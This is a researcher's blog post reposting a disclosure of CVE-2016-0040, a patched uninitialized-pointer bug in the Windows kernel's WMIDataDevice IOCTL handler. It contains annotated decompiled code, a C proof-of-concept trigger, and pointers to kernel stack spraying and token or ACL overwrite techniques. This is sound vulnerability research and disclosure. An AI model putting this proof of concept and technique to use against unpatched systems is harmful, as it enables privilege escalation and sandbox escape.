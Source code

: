 ```yaml
---
layout: post
title: "CVE-2016-0040 Story of Uninitialized Pointer in Windows Kernel"
date: 2024-03-29 1:1:59 +0100
categories: fuzzing
---
```

Update:

This post is a resharing of a blog I wrote about a vulnerability I discovered in Windows kernel almost a decade ago.


this vulnerablity is interesting for three reseaons 
* it's a tweetable vulnerablity :)
* it gave Write arbitrary data to arbitrary address primitive. 
* it has an amusing story associated with it. after my discovery of this vulnerability, I [shared a tweet](https://web.archive.org/web/20190420082929/https://twitter.com/R00tkitSMM/status/656214430464786432) about it, which caught the attention of researchers from Microsoft. Remarkably, they were able to discern the root cause of the vulnerability simply by examining my tweet.
you can read their story in [MSRC blog](https://msrc.microsoft.com/blog/2017/06/tales-from-the-msrc-from-pixels-to-poc/)

![My image Name](/assets/tweet.png)
* there was another vulnerablity( CVE-2016-0087) in this function I had found and I was expecting MSRC to spot it when then are auditing wmi, but they didn't.


Original post:

A few months ago, I discovered some vulnerabilities in the Windows kernel, mostly related to local privilege escalation.

Microsoft patched one of the reported vulnerabilities in MS16-014. The vulnerability type is an uninitialized pointer dereference. This vulnerability can be triggered even by a process with "low integrity level", meaning that successfully exploiting this vulnerability can lead to bypassing the sandbox (for example, the IE sandbox) or generic local privilege escalation for any process.


Here's a description of the bug:

For handling some WMI functions, Windows NT creates a named device called `WMIDataDevice`.

This device is accessible from user mode with any permission (you can check it with WinObj). WMIDataDevice handles some IOCTLs, with the `WmipReceiveNotifications` function responsible for the `IOCTL_WMI_ENUMERATE_GUIDS IOCTL`. Based on the first DWORD of `Irp->AssociatedIrp.SystemBuffer`, WmipReceiveNotifications decides whether to use the `stack` or `kernel pool` as a buffer for storing data/pointers. If the first DWORD is less than or equal to 0x10, the stack is selected as the buffer.

There's another important usage of the mentioned DWORD. WmipReceiveNotifications uses this DWORD as a counter for looping and initializing the local buffer. So, if we put 0 in the first DWORD of Irp->AssociatedIrp.SystemBuffer from user mode, the function selects the stack as the buffer. As mentioned earlier, this buffer is initiated in a loop. In this case, since we passed 0, the function skips loop execution, leaving the stack buffer uninitialized.

To reach the vulnerability, we need to bypass some other condition inside WmipReceiveNotifications.


v16 comes from user mode and its value needs to be 2.
{% highlight cpp %}
v16 = *(_DWORD *)(SystemBuffer + 4);
{% endhighlight %}

Insert a valid handle for ObReferenceObjectByHandle in SystemBuffer.
{% highlight cpp %}
v39 = ObReferenceObjectByHandle(*(HANDLE *)(SystemBuffer + 16), 0x43Au, 0, 1, &PIRP, 0);
{% endhighlight %}


finally uninitialized local variable used as target pointer and function write a DWORD from SystemBuffer + 8 to it

we can control what is written but for manipulating uninitialized stack we need a good stack spray inside kernel

{% highlight cpp %}
v23 = *(_DWORD *)LocalBuffer;

*(_DWORD *)(v23 + 60) = *(_DWORD *)(SystemBuffer + 8); // Write arbitrary data to uninitialized local variable or Write-what-where condition
{% endhighlight %}

Utilizing an uninitialized local variable as a pointer to write arbitrary data to its referenced location requires the attacker to employ a stack spraying technique for successful exploitation. This vulnerability presents a "write-what-where" condition, offering multiple ways for exploitation, such as zero ACL or SET token permission.

{% highlight cpp %}
int __userpurge WmipReceiveNotifications(int SystemBuffer , unsigned int * OutputBufferSize, PVOID PIRP) {
     ...
     ...
 
     v4 = SystemBuffer;
     v5 = * OutputBufferSize;
     v6 = * (_DWORD * ) v4;
     v39 = -1073741811;
     v37 = v5;
     v36 = v6;
     if (v6 <= 0x10) // if first value inside buffer from user mode is less than or equal to 0x10 then use local stack so we pass 0 to force use local stack
     {
         LocalBuffer =& v32;;
         
     } else {
         LocalBuffer = ExAllocatePoolWithTag(PagedPool, 8 * v6, 0x70696D57 u);
         if (!LocalBuffer)
             return -1073741670;
     }
 
     we don 't go inside this if because we use passed zero
 
     v42 = 0;
     v40 = 0;
     v38 = 0;
     v44 = 0;
     v41 = 0;
     if (v6) 
{
         do {
             v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 8 * v41 + 24), 4 u, WmipGuidObjectType, 1,&Object, 0);
             if (v39<0) goto LABEL_55;
             v8 = Object;
             v9 = 0;
             if (v44) {
                 while (Object != * ((PVOID * ) LocalBuffer + 2 * v9)) {.......
                 }
             }
         }
     } // because v42 and v45 is set to 0 we also bypass this two if 
if ( v42 == 1 ) { ... ... ... } 
if ( v45 | BYTE3(PIRP) ) { v13 = v37; if ( v11 &v37 )
     
  * (_DWORD * )(v4 + 48) = v11; * (_DWORD * ) v4 = 56; * (_DWORD * )(v4 + 44) = 32; * OutputBufferSize = 56;
     
     ...
     ...
     ...
 
 //v16 come from user mode so we can set it's value 2 then lead code to here
 
 if (v16 != 2) 
{
     LABEL_54:
         * OutputBufferSize = 0;
     goto LABEL_55;
 }
 v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 16), 0x43A u, 0, 1,&PIRP, 0);
 if (v39 >= 0)
 {
     v39 = ObOpenObjectByPointerWithTag((ULONG_PTR) PIRP, 512, 0, 0x1FFFFF, 0, 0, 1953261124, (int)&v35);
     if (v39>= 0)
 {
         v23 = * (_DWORD * ) LocalBuffer; * (_DWORD * )(v23 + 60) = * (_DWORD * )(v4 + 8); // write arbitrary data from uninitialized local variable

{% endhighlight %}

# Advantages of the vulnerability:
* The bug can be triggered even in low integrity contexts.
*  It's unrelated to win32k.sys, meaning it ignores the "Win32k system call disable policy", for instance in Chrome browser.
* It works with the default OS configuration, providing a universal sandbox bypass.

Sample POC for the vulnerability
{% highlight cpp %}

typedef union {
    HANDLE Handle;
    ULONG64 Handle64;
    ULONG32 Handle32;
}
HANDLE3264, * PHANDLE3264;
 
typedef struct {
    //
    // List of guid notification handles
    //
    ULONG HandleCount;
    ULONG Action;
    HANDLE /* PUSER_THREAD_START_ROUTINE */ UserModeCallback;
    HANDLE3264 UserModeProcess;
    HANDLE3264 Handles[20];
}
WMIRECEIVENOTIFICATION, * PWMIRECEIVENOTIFICATION;
 
#define RECEIVE_ACTION_CREATE_THREAD 2 // Mark guid objects as requiring
 
typedef struct {
    IN VOID * ObjectAttributes;
    IN ACCESS_MASK DesiredAccess;
 
    OUT HANDLE3264 Handle;
}
WMIOPENGUIDBLOCK, * PWMIOPENGUIDBLOCK;
 
#define IOCTL_WMI_ENUMERATE_GUIDS\
CTL_CODE(FILE_DEVICE_UNKNOWN, WmiEnumerateGuidList, METHOD_BUFFERED, FILE_READ_ACCESS)
 
void main() {
    DWORD dwBytesReturned;
    HANDLE threadhandle;
    WMIRECEIVENOTIFICATION buffer;
    CHAR OutPut[1000];
 
    memset( & amp; buffer, '\x41', sizeof(buffer)); // set ecx to 0x41414141
    buffer.HandleCount = 0;
    buffer.Action = RECEIVE_ACTION_CREATE_THREAD;
    buffer.UserModeProcess.Handle = GetCurrentProcess(); 
 
    // using NtMapUserPhysicalPages for spraying stack cant help us
 
    HANDLE hDriver = CreateFileA("\\\\.\\WMIDataDevice", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        while (TRUE) {
            if (!DeviceIoControl(hDriver, IOCTL_WMI_RECEIVE_NOTIFICATIONS, & amp; buffer, sizeof(buffer), & amp; OutPut, sizeof(OutPut), & amp; dwBytesReturned, NULL)) {
                return;
            }
        }
 
    }
 
}
{% endhighlight %}

in order to exploit this vulnerablity we have to spary kernel stack memory, after talking with Mateusz Jurczyk he told me about 
[using nt!NtMapUserPhysicalPages an excellent technique to Spraying Kernel Stack memory](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/) 

with help of above method I managed to exploit this vulnerablity and I had a plan to participate to `Pwn2Own` in windows kernel catagorty, but Microsoft spotted my vulnerablity with a simple miskate I did by tweeting about it. 

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/




